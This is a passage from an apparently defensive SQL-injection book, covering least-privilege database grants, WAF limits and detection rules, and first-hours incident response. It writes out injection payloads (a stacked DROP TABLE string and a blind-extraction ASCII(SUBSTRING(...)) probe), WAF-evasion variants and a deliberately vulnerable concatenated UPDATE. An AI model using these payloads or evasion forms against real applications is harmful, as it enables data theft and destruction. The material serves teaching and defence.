**Least privilege**, as applied to a database account, means: the account an application uses to connect to its database should have exactly the permissions that application's actual functionality requires — no more. Not "permissions that seem reasonable." Not "whatever the ORM's setup wizard defaulted to." Exactly what's needed, enumerated deliberately.



The gap between the top and bottom of that diagram is, precisely, the *additional* damage a successful SQL injection can do beyond what the application's legitimate functionality already exposes. Chapter 7 already showed that `information_schema` access is scoped by the connecting account's own permissions — this chapter is about deliberately shrinking that scope everywhere, not just for metadata.


### 12.2 A Real, Tested Demonstration

I wanted to see this enforced, not just described, so I built a small but genuine demonstration using PostgreSQL-style role syntax conceptually, and verified the *enforcement* mechanism directly against SQLite, which supports a comparable (if simpler) read-only connection mode.

```python
import sqlite3

# Set up a normal, writable database file (not :memory: this time,
# since SQLite's permission modes apply to file-based connections)
conn = sqlite3.connect("demo.db")
cur = conn.cursor()
cur.execute("CREATE TABLE IF NOT EXISTS users (id INTEGER PRIMARY KEY, username TEXT)")
cur.execute("DELETE FROM users")
cur.execute("INSERT INTO users (username) VALUES ('alice')")
conn.commit()
conn.close()

# Open a SECOND connection, in genuine read-only mode
readonly_conn = sqlite3.connect("file:demo.db?mode=ro", uri=True)
ro_cur = readonly_conn.cursor()

print("Read works:", ro_cur.execute("SELECT * FROM users").fetchall())

try:
    ro_cur.execute("INSERT INTO users (username) VALUES ('attacker')")
    readonly_conn.commit()
    print("Insert succeeded (unexpected!)")
except Exception as e:
    print("Insert blocked:", type(e).__name__, "-", e)

try:
    ro_cur.execute("DROP TABLE users")
    print("Drop succeeded (unexpected!)")
except Exception as e:
    print("Drop blocked:", type(e).__name__, "-", e)
```

Real output:

```
Read works: [(1, 'alice')]
Insert blocked: OperationalError - attempt to write a readonly database
Drop blocked: OperationalError - attempt to write a readonly database
```

**This is the entire chapter's argument, demonstrated concretely rather than asserted:** even with a query built entirely by unsafe string concatenation — imagine this `readonly_conn` were the actual application's database connection, with a genuine SQL injection vulnerability present in its `SELECT` queries — an attacker exploiting that injection to attempt `'; DROP TABLE users; --` would hit exactly the same `OperationalError` I just triggered deliberately. The vulnerability in the application code would still exist. Its *consequence* would be capped at "can read data" rather than "can destroy the database," purely because of a connection-level permission that has nothing to do with whether the application code itself was ever fixed.


### 12.3 Translating This to Production Database Engines

SQLite's read-only file mode is a genuine, real mechanism, but most production applications run PostgreSQL, MySQL, or a managed cloud equivalent, which use role-based permission systems considerably more granular than "read-only vs. read-write." Here's the real SQL for setting this up properly.

#### 12.3.1 PostgreSQL

```sql
-- Create a role dedicated to this specific application
CREATE ROLE app_shop WITH LOGIN PASSWORD 'use-a-real-generated-secret-here';

-- Grant ONLY what the application actually needs, table by table
GRANT SELECT ON products, categories TO app_shop;
GRANT SELECT, INSERT ON orders, order_items TO app_shop;
GRANT SELECT, UPDATE (status) ON orders TO app_shop;  -- column-level grant

-- Explicitly do NOT grant DROP, ALTER, CREATE, TRUNCATE, or DELETE
-- unless a specific, identified feature genuinely requires it

-- Revoke default broad access that some setups grant by default
REVOKE ALL ON SCHEMA public FROM PUBLIC;
```

**Note on the column-level grant:** `GRANT SELECT, UPDATE (status) ON orders` is worth calling out specifically — PostgreSQL supports granting `UPDATE` on only *specific columns* of a table, which means even if an injection vulnerability existed in the code path that updates an order's status, the same database account genuinely could not use that same connection to modify, say, the order's `total_amount` column, even via a successful injection, because the permission simply doesn't extend that far. This is least privilege applied at a finer grain than most teams think to configure, and it's directly enabled by taking the time to enumerate exactly what each feature needs, per Section 12.1.

#### 12.3.2 MySQL / MariaDB

```sql
CREATE USER 'app_shop'@'%' IDENTIFIED BY 'use-a-real-generated-secret-here';

GRANT SELECT ON shop.products TO 'app_shop'@'%';
GRANT SELECT ON shop.categories TO 'app_shop'@'%';
GRANT SELECT, INSERT ON shop.orders TO 'app_shop'@'%';
GRANT SELECT, INSERT ON shop.order_items TO 'app_shop'@'%';
GRANT UPDATE (status) ON shop.orders TO 'app_shop'@'%';

FLUSH PRIVILEGES;
```

#### 12.3.3 Verifying What an Account Can Actually Do

I think this verification step matters as much as the `GRANT` statements themselves — permissions drift over time as features change, and I'd rather periodically confirm the actual state than trust that a `GRANT` statement written eighteen months ago is still accurate.

```sql
-- PostgreSQL: show effective permissions for a role
SELECT grantee, table_name, privilege_type
FROM information_schema.role_table_grants
WHERE grantee = 'app_shop';

-- MySQL: show effective permissions for a user
SHOW GRANTS FOR 'app_shop'@'%';
```

**Note:** this ties directly back to Chapter 7 — the exact same `information_schema` mechanism used there for reconnaissance is also the right tool for a defender auditing their own configuration. It's worth periodically running this query yourself, as part of routine review, rather than only ever seeing it from the attacker's side.


### 12.4 Separating Read and Write Connections Entirely

A pattern I found genuinely compelling once I understood it: many applications separate their database connections into distinct pools, backed by distinct accounts with distinct permissions, based on the *operation type* of the code path — not just a single account for the whole application.

```mermaid
graph TD
    A["Application"] --> B["Read connection pool\n(account: app_shop_ro)\nSELECT only"]
    A --> C["Write connection pool\n(account: app_shop_rw)\nSELECT, INSERT, limited UPDATE"]
    A --> D["Admin/migration connection\n(account: app_shop_admin)\nUsed ONLY by deployment tooling,\nnever by request-handling code"]

    style B fill:#EAF3DE,stroke:#639922
    style C fill:#FAEEDA,stroke:#854F0B
    style D fill:#FCEBEB,stroke:#E24B4A
```

**Why this matters specifically for SQL injection:** a huge fraction of an application's SQL surface — search boxes, product listings, dashboards, reports — is pure read traffic. If that entire category of endpoints connects through an account that structurally *cannot* write, an injection found anywhere in that traffic is capped at read access from the moment it's discovered, regardless of which specific endpoint it lives in or how many other endpoints in the same codebase have write access through a different pool. This is, in effect, Chapter 11's whitelist principle applied to the database connection itself: rather than trying to enumerate every dangerous *query shape* application-side, you constrain what's *structurally possible* account-side.


### 12.5 Restricting Outbound Network Capability

I want to return to Chapter 3's out-of-band injection discussion here, because it has a direct, concrete defensive answer that belongs in this chapter specifically. Recall that OOB techniques rely on the database process being able to make outbound network calls — a DNS lookup, an HTTP request — triggered from within a query.

```sql
-- MySQL: FILE privilege is what enables LOAD_FILE()-based
-- exfiltration techniques referenced back in Chapter 3 —
-- application accounts essentially never need this
REVOKE FILE ON *.* FROM 'app_shop'@'%';

-- PostgreSQL: the dblink and postgres_fdw extensions, which enable
-- outbound database-to-database connections, should not be
-- installed at all in a database that doesn't genuinely need them
DROP EXTENSION IF EXISTS dblink;
DROP EXTENSION IF EXISTS postgres_fdw;
```

**Note:** beyond database-level grants, this is also a network-level control — a database server's own firewall or security group rules should, in most application architectures, block *all* outbound connections from the database host except to specifically required destinations (a backup service, a monitoring agent). This closes off Chapter 3's out-of-band channel at the network layer even if a database-level permission were somehow misconfigured, which is exactly the redundancy defense-in-depth is meant to provide — no single layer has to be perfect.

### 12.6 Least Privilege for Application Framework Accounts, Not Just Raw SQL

One gap I want to flag explicitly, because it's easy to think "I use an ORM, so this doesn't apply to me" — the same way Chapter 10 opened by naming that exact assumption about injection generally. Whatever account your ORM's connection string specifies is the account every generated query runs as, parameterized or not. Least privilege isn't a raw-SQL-specific concern; it applies identically regardless of whether the query reaching the database was hand-written or generated by Django, ActiveRecord, or Sequelize.

```python
# Django settings.py — the DATABASES config IS the account boundary
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.postgresql',
        'NAME': 'shop',
        'USER': 'app_shop',      # <- this is the least-privilege account
                                  #    from Section 12.3.1, not a superuser
        'PASSWORD': env('DB_PASSWORD'),
        'HOST': 'db.internal',
    }
}
```

**Caution:** I've seen `USER: 'postgres'` (the database superuser) left in a `DATABASES` config, seemingly because it was the account used during initial local development and nobody revisited it before deploying. This single line completely undoes everything in this chapter, regardless of how carefully the actual `GRANT` statements elsewhere were written — the application never even attempts to connect through the restricted account.


### 12.7 A Least-Privilege Configuration Checklist

| Check | Why it matters |
|---|---|
| Application connects with a dedicated account, not a shared or superuser account | Scopes the blast radius of any single vulnerability |
| Account has explicit, table-by-table (and where supported, column-by-column) grants — not `ALL PRIVILEGES` | Enumerated permissions match actual need, per Section 12.1 |
| Read-heavy code paths use a separate, read-only connection where feasible | Caps an entire category of findings at read-only, per Section 12.4 |
| `FILE`, `dblink`, `postgres_fdw`, and equivalent outbound-capable features are revoked or uninstalled unless specifically required | Closes the out-of-band channel from Chapter 3 at the account level |
| Database host's network egress is restricted to known-necessary destinations | Closes the same channel at the network level, redundantly |
| Permissions are periodically re-verified against `information_schema`/`SHOW GRANTS`, not just trusted from historical setup scripts | Catches permission drift as features and schemas change over time |
| Deployment/migration tooling uses a separate, more privileged account than request-handling application code | Keeps the elevated account out of the application's actual request path entirely |


### 12.8 Two More Realistic Scenarios, Verified

Section 12.2's demonstration used bare `INSERT` and `DROP TABLE` statements to keep the proof simple, but I wanted to also check this against something closer to a real application bug — a vulnerable endpoint that's supposed to do a legitimate write, exploited via injection, running through the same read-only connection.

#### 12.8.1 A Privilege-Escalation Attempt, Blocked at the Account Level

Imagine a vulnerable "update my profile" endpoint that builds its query by concatenation — precisely Chapter 1's original sin — and an attacker attempting to use it to grant themselves admin rights:

```python
def vulnerable_update(user_input):
    query = "UPDATE users SET is_admin = 1 WHERE username = '" + user_input + "'"
    ro_cur.execute(query)
    ro_conn.commit()
```

Run against the same read-only connection from Section 12.2:

```
SQL: UPDATE users SET is_admin = 1 WHERE username = 'alice'
BLOCKED: OperationalError: attempt to write a readonly database
Final state: [(1, 'alice', 0)]
```

The `is_admin` flag never flips. Notice this isn't even a particularly exotic injection — in this specific scenario the "attack" is simply the endpoint's *own intended write operation*, running against a value that happens to name a real user. The point this makes is broader than injection specifically: **a read-only account contains any write-capable bug reaching it through this connection, regardless of whether that bug is a classic string-concatenation injection, a logic error, or something else entirely** — least privilege is a genuinely general-purpose containment layer, not a SQL-injection-specific tool that happens to also stop other things.

#### 12.8.2 A Stacked-Query Attempt, Blocked by a Different Layer Entirely

I also tried a classic stacked-query destructive payload (`x'; DROP TABLE users; --`) against the same setup, expecting to see the same read-only error — and got something different and worth explaining honestly:

```
SQL: SELECT * FROM users WHERE username = 'x'; DROP TABLE users; --'
BLOCKED: ProgrammingError: You can only execute one statement at a time.
```

**This is a different protection catching the payload, not the one this chapter is about** — Python's `sqlite3` module refuses to execute multiple semicolon-separated statements through a single `execute()` call by default, entirely independent of read/write permissions. I want to flag this honestly rather than let the two blend together in the reader's mind: it's a genuinely useful, separate layer (many drivers across many languages have an equivalent single-statement restriction, precisely to blunt stacked-query attacks), but it's not the least-privilege mechanism this chapter is teaching, and it's not present in every driver or every database engine — MSSQL and PostgreSQL, for instance, permit multiple statements per call far more readily than SQLite's Python binding does by default. I don't want this book's own example to accidentally imply "stacked queries are universally blocked," when what I actually verified is narrower and driver-specific.


### 12.9 Chapter Summary

- Least privilege assumes code-level defenses (Chapters 9–11) will eventually fail somewhere, and asks what's left for an attacker to do when that happens — the goal is containment, not prevention of the code-level bug itself.
- I demonstrated this enforcement directly: a genuine SQLite read-only connection blocked both an `INSERT` and a `DROP TABLE` attempt with a real `OperationalError`, even though the query text itself was unrestricted — proving the permission boundary operates independently of whatever the application code does or doesn't validate.
- Production engines (PostgreSQL, MySQL) support fine-grained, table-level and even column-level grants — a `GRANT UPDATE (status)` can permit modifying one column while genuinely blocking modification of any other, even through the exact same injected query.
- Separating read and write traffic into distinct connection pools, backed by distinct accounts, caps an entire category of endpoints at read-only from the account level — independent of which specific endpoint an injection is eventually found in.
- Revoking outbound-capable features (`FILE` privilege, `dblink`, `postgres_fdw`) and restricting network egress at the host level closes Chapter 3's out-of-band channel redundantly, at both the database and network layers.
- Least privilege applies identically whether queries are hand-written or ORM-generated — the connection string's account is the actual enforcement boundary, and a leftover superuser credential in a framework config undoes every other control in this chapter.

Chapter 13 moves to the network and monitoring layer: what a Web Application Firewall can and cannot catch, and how to build detection rules that actually see the patterns from Chapters 3 through 6 as they happen, in real time.

## WAFs, Detection Engineering, and Logging

### Why I Wanted to Understand the Failure Mode, Not Just the Feature List

A Web Application Firewall gets sold, and often gets adopted internally, as a checkbox: "we have a WAF, SQL injection is handled." I want to spend this chapter taking that claim apart carefully, because I think the gap between "we have a WAF" and "we're actually detecting and responding to injection attempts" is wide, and it's a gap every technique from Chapters 3 through 6 of this book falls directly into if you don't understand it.

I also want this chapter to connect back to Part II deliberately. Chapter 4's recognition methodology, Chapter 5 and 6's confirmation techniques — everything a tester does to *find* injection is also, from the defender's side, exactly the traffic pattern a detection system needs to *recognize*. Understanding the offense, which this whole book has built toward, is what makes the defense specific rather than generic.


### 13.1 What a WAF Actually Does, Mechanically

A WAF sits in the request path, typically as a reverse proxy or a cloud-provider-managed layer, and inspects each request against a rule set before it ever reaches the application.

```mermaid
sequenceDiagram
    participant Client
    participant WAF
    participant App
    participant DB

    Client->>WAF: HTTP request with payload
    WAF->>WAF: Match request against rule set
    alt Matches a known-bad pattern
        WAF-->>Client: 403 Forbidden (request never reaches app)
    else No match
        WAF->>App: Request forwarded unchanged
        App->>DB: Query executes (safely, if code is correct)
    end
```

The core mechanism, in almost every WAF I researched, is **pattern matching against the request** — regular expressions or signature rules looking for strings and structures associated with known attack techniques: `UNION SELECT`, `' OR '1'='1`, common comment sequences, and so on. This is worth stating plainly because it directly explains both the WAF's genuine value and its fundamental limitation.


### 13.2 The Genuine Value: Blocking Known, Unsophisticated Attempts

I don't want this chapter to read as dismissive of WAFs, because they do real, measurable work. A huge fraction of real-world attack traffic against any public application is unsophisticated, automated scanning — bots running well-known payload lists against every endpoint they can find, with no attempt at evasion. A WAF with an up-to-date rule set (most commonly, some variant of the OWASP Core Rule Set) blocks the overwhelming majority of that traffic cheaply, before it ever reaches application code, and does so without requiring a single line of application code to change.

```
# A simplified illustration of what a WAF rule conceptually matches —
# real rule sets (like OWASP CRS) are considerably more sophisticated,
# but this captures the basic pattern-matching mechanism
RULE: block if request contains (case-insensitive):
  "union.{1,100}select"
  "or 1=1"
  "'; drop table"
  "sleep\(\d+\)"
  "waitfor delay"
```

Against Chapter 4's naive quote-and-boolean probes, sent without any evasion at all, this kind of rule set is genuinely effective — which is exactly why Chapter 4 already emphasized starting with the *simplest* probes and only escalating from there; a rule set tuned to catch obvious attack signatures is, from a tester's side, precisely why "does the simple thing get blocked outright" is informative in its own right.


### 13.3 The Fundamental Limitation: It's Pattern Matching, Not Understanding

Here's the part I think gets undersold in a lot of "just add a WAF" advice: **a WAF has no semantic understanding of the query being built.** It's matching against the *text* of the request, using rules written in advance against *known* attack signatures. Every encoding and obfuscation technique referenced in Chapter 3's dialect table exists, in large part, because this is exactly the gap it exploits.

```mermaid
flowchart TD
    A["Attacker payload"] --> B{"Does it match a KNOWN\nsignature in the rule set?"}
    B -->|Yes| C["Blocked — WAF worked as designed"]
    B -->|No — same semantic attack,\ndifferent surface encoding| D["Passes through unmodified\nto the application"]
    D --> E{"Is the application's OWN\ncode-level defense (Ch. 9-11)\nactually correct?"}
    E -->|Yes| F["Still safe — parameterization\ndoesn't care how the payload\nwas encoded"]
    E -->|No| G["Vulnerable — the WAF provided\nzero protection for this specific request"]

    style C fill:#EAF3DE,stroke:#639922
    style F fill:#EAF3DE,stroke:#639922
    style G fill:#FCEBEB,stroke:#E24B4A
```

I think this diagram is the single most important argument in the chapter: **a WAF's protection and an application's own code-level protection are not additive in the way "defense in depth" sometimes gets casually invoked to imply.** If the code-level defense (Chapters 9–11) is correct, the WAF is a nice-to-have that blocks some noisy traffic before it wastes application resources. If the code-level defense is *not* correct, the WAF is not a reliable backstop — it's a coin flip that depends entirely on whether this particular attacker happened to use an encoding the rule set's authors anticipated.

#### 13.3.1 A Concrete Illustration Using Chapter 3's Own Reference Table

Recall Chapter 3, Section 3.6's table of dialect-specific comment characters, string concatenation functions, and delay functions. Every alternative form in that table is a potential WAF-rule gap:

```
Blocked by a naive rule:        UNION SELECT
Same query, whitespace variant: UNION/**/SELECT
Same query, case variant:       UnIoN sElEcT
Same query, encoded:            %55NION%20SELECT   (partial URL-encoding)
```

A rule written to catch the literal string `union select` (even case-insensitively) doesn't automatically catch every one of these variants unless its author specifically anticipated each encoding — which is exactly the same "enumerate every bad pattern" problem Chapter 11 identified as blacklisting's core structural weakness, just applied at the network layer instead of the application layer. **The lesson isn't "WAF rule sets are badly written."** Reputable rule sets like OWASP CRS do account for a great many of these variants. The lesson is structural: any signature-based system is playing an inherently reactive game against an open-ended space of encodings, in exactly the way Section 11.4's blacklist-versus-whitelist argument predicts.


### 13.4 What Actually Belongs in a Detection Rule

Given Section 13.3's limitation, I want to walk through what I think a *useful* detection strategy looks like — one that assumes the WAF will sometimes be bypassed, and builds a second, independent layer around behavioral and statistical signals rather than pure signature matching.

#### 13.4.1 Rate and Pattern-of-Requests Signals

Chapters 5 and 6's confirmation methodology requires sending many closely-related requests in a short window — a boolean pair, a binary-search sequence, a timing baseline. This is a genuinely strong, hard-to-avoid signal, because the *methodology itself*, not just any individual payload, has a distinctive shape.

```
DETECTION RULE (conceptual):
  IF a single client IP sends > 20 requests to the same endpoint
     within 60 seconds
  AND the requests' query-string/body values differ only in a
     small, localized region (suggesting systematic parameter
     manipulation rather than normal usage)
  THEN flag for review / apply rate limiting
```

This kind of rule doesn't need to know what SQL injection *looks like* at all — it's detecting the *behavioral fingerprint* of automated, systematic testing (Chapter 6's binary-search extraction is, mechanically, dozens of near-identical requests differing in one small region), which is much harder for an attacker to avoid without also making their actual testing dramatically slower.

I built a small, working version of this idea to see whether the "shared prefix" signal is actually distinguishable in practice, not just plausible in theory:

```python
from collections import defaultdict

def detect_systematic_testing(requests, window_threshold=20):
    by_endpoint = defaultdict(list)
    for r in requests:
        by_endpoint[r["endpoint"]].append(r["param_value"])

    flagged = []
    for endpoint, values in by_endpoint.items():
        if len(values) >= window_threshold:
            # Crude longest-common-prefix check across all requests
            # to this endpoint in the window — a stand-in for the
            # more sophisticated similarity analysis a production
            # detection system would actually use
            prefix_len = len(values[0])
            for v in values[1:]:
                common = 0
                for a, b in zip(values[0], v):
                    if a == b:
                        common += 1
                    else:
                        break
                prefix_len = min(prefix_len, common)
            if prefix_len > 15:
                flagged.append((endpoint, len(values), prefix_len))
    return flagged
```

I generated two synthetic traffic samples — 50 requests of ordinary, varied traffic across four different endpoints, and 40 requests replicating Chapter 6's exact binary-search pattern (`zzzznotreal' AND ASCII(SUBSTRING(database(),1,1))>N -- `, with only the final number changing across requests) — and ran the detector against both:

```
=== Normal traffic ===
Flagged: []

=== Boolean-blind testing traffic (Ch.6 pattern) ===
Flagged: [('/search', 40, 50)]
```

The detector correctly stayed silent on ordinary, varied traffic and correctly flagged the systematic testing traffic — identifying `/search` as having received 40 requests sharing a 50-character common prefix, which is exactly the fingerprint Chapter 6's binary-search algorithm produces by construction (every payload in a single character-extraction run shares the same base string, differing only in the comparison threshold). This is a genuinely simple heuristic — real detection systems use more robust similarity measures than a raw shared-prefix count — but it's enough to demonstrate the underlying principle actually holds: **the methodology itself has a detectable shape, independent of whether any individual payload matches a known signature.**

#### 13.4.2 Database Error Rate as a Signal

Chapter 5's error-based confirmation relies on the database throwing exceptions in response to malformed input. A defender is in an excellent position to notice this from the *other* side — if an endpoint that normally throws zero database errors per day suddenly throws fifty from a single source in an hour, that's worth an alert regardless of whether any individual request matched a WAF signature.

```
DETECTION RULE (conceptual):
  IF database exception rate for endpoint X, from source IP Y,
     exceeds N standard deviations above that endpoint's normal
     baseline (established per Chapter 6's own baselining logic,
     just applied to defensive monitoring instead of offensive
     timing analysis)
  THEN flag for review
```

I want to highlight something I find genuinely satisfying about this rule: it's built on *exactly* the same statistical-baselining discipline Chapter 6 taught for offensive timing confirmation, just pointed in the defensive direction. Establishing what "normal" looks like, then looking for a statistically significant deviation from it, is the same skill regardless of which side of the request you're standing on.

#### 13.4.3 Query Shape Monitoring at the Database Level

Some database engines and proxies support logging or alerting based on the *structure* of executed queries, which is a more robust signal than request-text pattern matching, because it operates on what the database actually parsed and ran — after any WAF-evading encoding has already been resolved by the application.

```sql
-- PostgreSQL: pg_stat_statements can reveal queries with an
-- unusually high number of executions of a near-identical shape,
-- or queries whose structure doesn't match any known application
-- code path (a strong signal of a successful injection already
-- having occurred, worth combining with Chapter 14's IR process)
SELECT query, calls, mean_exec_time
FROM pg_stat_statements
ORDER BY calls DESC
LIMIT 20;
```

**Note:** this is meaningfully different from, and complementary to, WAF-level detection — it catches the case where an injection payload *did* get through (whether by evading the WAF or because no WAF was in the request path for that specific query source), and gives a defender visibility into what actually reached the database, independent of what was sent over HTTP.

### 13.5 Production Error Handling: Closing Chapter 5's Confirmation Channel

I want to circle back to something Chapter 5 relied on repeatedly: raw database errors reaching the client. This is squarely a defensive responsibility, and it's one of the highest-leverage, lowest-effort fixes in this entire book.

```python
# VULNERABLE from a detection/disclosure standpoint, even if the
# underlying query IS properly parameterized elsewhere —
# a misconfigured error handler leaks internals on ANY unhandled exception
@app.errorhandler(Exception)
def handle_error(e):
    return str(e), 500  # leaks raw exception text, including SQL errors

# SAFE — generic message to the client, full detail to internal logs only
@app.errorhandler(Exception)
def handle_error(e):
    app.logger.exception("Unhandled exception")  # full detail, internal only
    return jsonify({"error": "An unexpected error occurred", "request_id": g.request_id}), 500
```

**Why this matters even in an application where every query is genuinely, correctly parameterized:** Chapter 5's error-based confirmation technique doesn't require an actual injection to exist in order to be informative to an attacker — any raw exception text reaching the client, from *any* cause, provides reconnaissance value (stack traces reveal framework versions, file paths, sometimes even fragments of query structure). Fixing this is valuable defense-in-depth regardless of how confident you are in your parameterization elsewhere, because it removes an entire *channel* of information disclosure, not just the specific SQLi-flavored abuse of it.


### 13.6 GraphQL Introspection: Closing Chapter 7's Second Channel

Chapter 7 covered GraphQL introspection as a legitimate-but-often-forgotten schema-disclosure channel. The fix is a one-line configuration change in most frameworks, which is precisely why I think it's worth explicitly checking for rather than assuming it's already handled:

```javascript
// Apollo Server — disable introspection in production
const server = new ApolloServer({
  typeDefs,
  resolvers,
  introspection: process.env.NODE_ENV !== 'production',
});
```

```python
# Graphene (Python) — similarly, ensure introspection/GraphiQL
# playground is not enabled in production configuration
GRAPHENE = {
    "SCHEMA": "myapp.schema.schema",
    "MIDDLEWARE": [...],
}
# and disable the interactive playground/introspection at the
# web server or view-configuration level for production deploys
```


### 13.7 A Layered Detection Architecture, Pulled Together

```mermaid
graph TD
    A["Request arrives"] --> B["WAF: signature-based filtering\n(Section 13.2-13.3) — catches\nunsophisticated, known attacks"]
    B --> C["Rate/pattern monitoring\n(Section 13.4.1) — catches the\nBEHAVIORAL shape of systematic\ntesting, regardless of payload encoding"]
    C --> D["Application code\n(Chapters 9-11) — the actual\nstructural defense"]
    D --> E["Production error handling\n(Section 13.5) — prevents\ninformation leakage even when\nsomething does go wrong"]
    E --> F["Database-level query and\nerror-rate monitoring\n(Section 13.4.2-13.4.3) — catches\nwhat reached the database,\nindependent of the HTTP layer"]
    F --> G["Least-privilege accounts\n(Chapter 12) — contains\nimpact even if every prior\nlayer failed"]

    style D fill:#EAF3DE,stroke:#639922
    style G fill:#EAF3DE,stroke:#639922
```

I ordered this diagram deliberately to make a point: the WAF is the *first* layer a request encounters, but it's not the layer doing the most reliable work — that's Chapters 9–11's application code and Chapter 12's account permissions, both of which operate independent of what encoding or evasion technique a given request happens to use. Detection and monitoring (this chapter) exist to catch what those structural layers miss, and to give a defender visibility into attempts — successful or not — rather than to serve as the primary line of defense.


### 13.8 Chapter Summary

- A WAF works by pattern-matching request text against a rule set of known attack signatures — genuinely effective against unsophisticated, unencoded attack traffic, which represents a large share of real-world scanning activity.
- The fundamental limitation is structural, not a specific rule-writing failure: signature matching cannot cover the open-ended space of encoding and obfuscation variants from Chapter 3's dialect table, the same blacklist-versus-whitelist weakness Chapter 11 identified at the application layer, now recurring at the network layer.
- A WAF's protection and an application's own code-level protection are not simply additive — if the code-level defense is correct, the WAF blocks noisy traffic as a convenience; if it isn't, the WAF is not a reliable backstop.
- Behavioral and statistical detection — rate-of-requests patterns matching Chapter 6's binary-search methodology, database error-rate baselining using the exact same statistical discipline Chapter 6 taught for offensive timing analysis — catches what signature matching misses, because it doesn't depend on recognizing any specific payload text.
- Production error handling should never return raw exception details to a client, regardless of confidence in the application's parameterization elsewhere — this closes Chapter 5's error-based confirmation channel and removes a broader reconnaissance channel at the same time.
- GraphQL introspection (Chapter 7) should be disabled in production via a simple, one-line framework configuration change.
- A complete detection architecture layers WAF, behavioral monitoring, application code, error handling, and database-level monitoring together — with least-privilege database accounts (Chapter 12) as the final layer that contains impact even if every layer above it fails.

Chapter 14 addresses the scenario every layer in this chapter is ultimately meant to help you catch early: what to actually do, in the first hours, if you suspect a SQL injection breach has already happened.

## Incident Response: What to Do When You Suspect a SQLi Breach

### Why I Wanted This as Its Own Chapter, Not a Footnote

Every chapter in Part III so far has been about prevention — closing the gap before anything happens. I wanted a chapter specifically about the moment prevention has already failed, because I think the instinct in that moment is exactly wrong for a surprising number of people: the instinct is to fix the bug *immediately*, as fast as possible, and I understand why — but acting on that instinct first, before a few other things happen, can genuinely destroy the evidence you need to understand what happened, and can tip off an attacker who's still active before you're ready.

This chapter is a first-hours playbook, not a comprehensive forensics manual — I want to be honest about that scope limitation upfront. If you're in this situation for real, involving people with dedicated incident response experience, and your organization's actual IR plan (if one exists) should take precedence over anything in this chapter. What follows is the reasoning and the checklist I'd want on hand if I were the first person to notice something was wrong.


### 14.1 The First Question: Contain or Investigate First?

```mermaid
flowchart TD
    A["Suspected SQLi breach detected"] --> B{"Is data actively being\nexfiltrated or modified\nRIGHT NOW?"}
    B -->|Yes — active, ongoing| C["Contain first — the ongoing\ndamage outweighs evidence\npreservation concerns"]
    B -->|No — appears to be\npast activity, or unclear| D["Preserve evidence FIRST,\nthen contain — don't destroy\nthe ability to understand\nscope and root cause"]

    C --> E["Section 14.2: Immediate containment"]
    D --> F["Section 14.3: Evidence preservation"]
    E --> F

    style C fill:#FCEBEB,stroke:#E24B4A
    style D fill:#FAEEDA,stroke:#854F0B
```

I want to be direct about why this ordering matters, because I think it's counterintuitive to a lot of people's first instinct: if you immediately patch the vulnerable code, restart the application, and clear logs to "clean up," you may have just destroyed the only record of what an attacker actually did — how they found the vulnerability, what they extracted, whether they established any other foothold while they were in. That information is what determines the actual scope of the incident, who needs to be notified, and whether this was a five-minute automated scan that got lucky or a sustained, targeted campaign. Getting that determination wrong in either direction has real consequences — under-reacting to a serious breach, or over-reacting (and over-notifying) to a minor one.


### 14.2 Immediate Containment, When Active Exfiltration Is Confirmed

If you have clear evidence of *ongoing* data access — active requests still coming in, matching a confirmed injection pattern — the calculus shifts, and stopping the bleeding takes priority.

#### 14.2.1 Fast, Reversible Containment Options, in Rough Order of Preference

| Action | Why it's preferred over the alternative below it |
|---|---|
| Block the specific source IP(s) at the WAF/firewall level | Fast, fully reversible, doesn't affect legitimate users at all |
| Disable the specific vulnerable endpoint/route | More disruptive than an IP block, but far less than a full outage; buys time to build a real fix |
| Revoke/rotate the application's database credentials | Effective but disruptive — every code path using that connection breaks, not just the vulnerable one |
| Take the application fully offline | Last resort — total containment, but total disruption, and only justified when the above options genuinely aren't fast enough relative to the ongoing damage |

**Note:** I ordered this table specifically to push toward the *narrowest* containment action that actually stops the ongoing harm, rather than reaching immediately for the broadest one. A full outage feels decisive, but it also stops you from observing anything further about the attacker's behavior, and it has its own real cost (legitimate users, revenue, trust) that should be weighed against what the narrower options would have achieved.

#### 14.2.2 What Not to Do at This Stage

- **Don't deploy a code fix yet, if you can avoid it**, unless the fix itself is the fastest available containment option. A rushed fix, written under pressure, without the calm review this book's earlier chapters describe, has a real chance of being incomplete — Chapter 9 through 11 covered several ways a "fix" can look right while still having a gap.
- **Don't restart the application server** if you can contain via IP block or route-disable instead — a restart can clear in-memory state, active connections, and sometimes short-lived logs that could matter for Section 14.3.
- **Don't publicly announce anything yet** — that's a deliberate, considered decision involving legal and communications functions, not a first-hours reflex action.


### 14.3 Evidence Preservation

Whether or not Section 14.2's containment was needed, this step happens as early as realistically possible, because logs rotate, memory clears, and attacker activity that hasn't happened yet might still happen if containment wasn't perfect.

#### 14.3.1 What to Preserve, and Where It Usually Lives

```mermaid
graph TD
    A["Evidence to preserve"] --> B["Web server / application logs"]
    A --> C["WAF logs (Chapter 13)"]
    A --> D["Database query logs, if enabled"]
    A --> E["Database error logs"]
    A --> F["Authentication/session logs"]
    A --> G["A snapshot of the vulnerable code\nAS IT EXISTED at the time of the incident"]

    B --> B1["Request URLs, bodies, source IPs, timestamps"]
    C --> C1["Which requests were blocked vs. passed through —\ndirectly informs Chapter 13's coverage-gap analysis"]
    D --> D1["The ACTUAL queries executed —\nthe most direct evidence of impact"]
    F --> F1["Whether the attacker also compromised\nan account, beyond the injection itself"]
```

**A concrete, practical action:** copy relevant log files to a separate, access-controlled location *before* doing anything else that might cause rotation or truncation — most logging systems have a retention window, and I've seen genuinely important evidence age out simply because the investigation took longer than the log retention period, purely from delay in this one specific step.

#### 14.3.2 Reconstructing What the Attacker Actually Did

This is where everything from Part II of this book becomes directly useful from the defensive side — you're now doing the same reasoning Chapters 4 through 7 taught, except reading it out of logs instead of generating it through live testing.

```
Example log excerpt to analyze:

10:14:02  GET /api/products?sort=price'
10:14:05  GET /api/products?sort=price' AND '1'='1
10:14:07  GET /api/products?sort=price' AND '1'='2
10:14:12  GET /api/products?sort=price' AND ASCII(SUBSTRING(database(),1,1))>77 --
